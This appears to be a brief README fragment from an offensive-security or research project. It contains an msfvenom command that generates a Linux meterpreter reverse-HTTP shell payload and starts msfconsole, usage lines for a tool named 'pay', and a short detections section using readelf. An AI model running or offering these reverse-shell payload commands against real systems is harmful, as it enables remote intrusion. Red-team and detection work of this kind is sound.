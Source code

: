 - [x]  git submodule add https://github.com/jarro2783/cxxopts

```sh
msfvenom -p linux/x64/meterpreter_reverse_http LHOST=127.0.0.1 LPORT=4443  -f elf > /tmp/shell.elf
msfconsole -r ./aux/msfrc
```

```sh
./pay
./pay  -- -c 
./pay -d -- -b 1 -n coworker
./pay -d 
./pay -m 

```

## Detections
```sh
readelf --sections /tmp/lspay
readelf --notes /tmp/lspay
```